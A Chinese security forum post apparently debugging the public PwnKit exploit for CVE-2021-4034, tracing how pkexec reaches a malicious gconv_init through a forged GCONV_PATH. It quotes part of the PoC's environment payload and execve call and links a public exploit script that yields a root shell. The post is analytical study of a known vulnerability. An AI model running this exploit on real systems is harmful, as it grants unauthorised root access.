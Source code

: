 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-271345.htm)

> [原创] 简单调试一下 cve2021-4034

```
看一下注册时间2009-01-20，感慨颇多！在这辞旧迎新之际，随便写点什么给论坛做一点微薄的贡献。新版系统不会用，排版丑陋，请谅解。
前几天看很多人发了关于cve2021-4034贴，有些是直接翻译，有些讲得还是比较透彻。我闲来无事调试了一下，在这里简单做个调试笔记。纯属业余爱好，如有错误敬请谅解。
 网上这个脚本https://raw.githubusercontent.com/nikaiw/CVE-2021-4034/master/cve2021-4034.py，在ubuntu18.04虚拟机中直接运行就可以得到root权限的shell。以下调试在ubuntu18.04虚拟机中进行,

```

部分 poc 代码如下：  
cmd = b"/usr/bin/pkexec"  
argv = []  
envp = [  
b"gconv",  
b"PATH=GCONV_PATH=.",  
b"LC_MESSAGES=en_US.UTF-8",  
**b"XAUTHORITY=../gconv",**  
b""]  
cargv = (c_char_p _(len(argv) + 1))(_argv, None)  
cenv = (c_char_p _(len(envp) + 1))(_envp, None)  
libc.execve(cmd, cargv, cenv)

 

![](https://bbs.pediy.com/upload/attach/202201/236638_3Y9PRPM334ZNGMH.png)  
这个 cve2021-4034.py 脚本生成了一个 pwn.so 文件，拖到 ida 里面可以看到 gconv_init() 函数会开一个 shell。  
![](https://bbs.pediy.com/upload/attach/202201/236638_5K96YRUWZNX9M6A.png)  
看了很多文章没人告诉我从 / usr/bin/pkexec 到这个 gconv_init() 的执行路径。只好自己动手调试一把，在虚拟机中执行 python 脚本，虚拟机外 ida 附加 pwn.so, 可以断在 gconv_init()。  
![](https://bbs.pediy.com/upload/attach/202201/236638_NVR3M8FN2W9NKBM.png)  
查看一下函数调用栈：  
![](https://bbs.pediy.com/upload/attach/202201/236638_TVHCY7YZDWCQPFP.png)

 

![](https://bbs.pediy.com/upload/attach/202201/236638_PCBRUVADTMVWGC2.png)

 

这样调用过程就知道了：  
**000055EB7DC471C4 pkexec_new main+704**  
00007FF80CB57F20 libglib-2.0.so.0.5600.4 g_slice_alloc+680  
000055EB7DC483B9 pkexec_new _start+289  
000055EB7DC4834F pkexec_new _start+21F  
**00007FF80CB4305D libglib-2.0.so.0.5600.4 g_printerr+15D**  
00007FF80CB40101 libglib-2.0.so.0.5600.4 g_mem_profile+211  
00007FF80CB1BAAD libglib-2.0.so.0.5600.4 g_convert_with_fallback+2FD  
00007FF80CB1B854 libglib-2.0.so.0.5600.4 g_convert_with_fallback+A4  
00007FF80CB1B52F libglib-2.0.so.0.5600.4 g_convert+3F  
00007FF80CB1B136 libglib-2.0.so.0.5600.4 g_iconv_open+146  
00007FF80CB1B023 libglib-2.0.so.0.5600.4 g_iconv_open+33  
00007FF80CB1AB39 libglib-2.0.so.0.5600.4 g_compute_checksum_for_bytes+A9  
00007FF80C0D9FD7 libc-2.27.so iconv_open+37  
00007FF80C0DA0CE libc-2.27.so iconv_open+12E  
00007FF80C0DA1BE libc-2.27.so iconv_open+21E  
00007FF80C1933F3 libc-2.27.so wcsftime+1833  
00007FF80C14F1CC libc-2.27.so **libc_malloc+8C  
00007FF80C0DA6C6 libc-2.27.so** gconv_open+E6  
00007FF80C0DBC66 libc-2.27.so __gconv_find_transform+1A6  
00007FF80C0DB6E8 libc-2.27.so find_derivation+928  
00007FF80C0DB15B libc-2.27.so find_derivation+39B  
...................... 此处省略几十行  
00007FF80C0DB15B libc-2.27.so find_derivation+39B  
00007FF80C0DB109 libc-2.27.so find_derivation+349  
00007FF80C0DB4F3 libc-2.27.so find_derivation+733  
00007FF80D48C1C8 pwn.so gconv_init+0x4  
看一下 pkexec_new main+704 （注意 704 是 16 进制）是哪里：  
![](https://bbs.pediy.com/upload/attach/202201/236638_9MGCK284HP7Y866.png)  
相关伪代码是：  
![](https://bbs.pediy.com/upload/attach/202201/236638_79Q2JZTYZV7TYFV.png)  
这里因为 poc 脚本里的环境变量值含有'..'，所以会执行函数 sub_560DD3EB6250，提示环境变量值可疑。  
b"XAUTHORITY=../gconv"  
![](https://bbs.pediy.com/upload/attach/202201/236638_EQQWYGME53S4BTV.png)  
为什么执行 g_printerr 会得到 shell, 网上文章已经很多了。这个漏洞本质就是改变了系统的 GCONV_PATH 环境变量，实现 gconv-modules 配置文件内容可控，通过调用 g_printerr，被伪造的 GCONV_PATH 欺骗最终执行一个恶意的 so 文件。  
一点调试心得和大家分享，水平业余，仅供参考，谢谢！

[【公告】欢迎大家踊跃尝试高研班 11 月试题，挑战自己的极限！](https://bbs.pediy.com/thread-270220.htm)

[#调试逆向](forum-4-1-1.htm)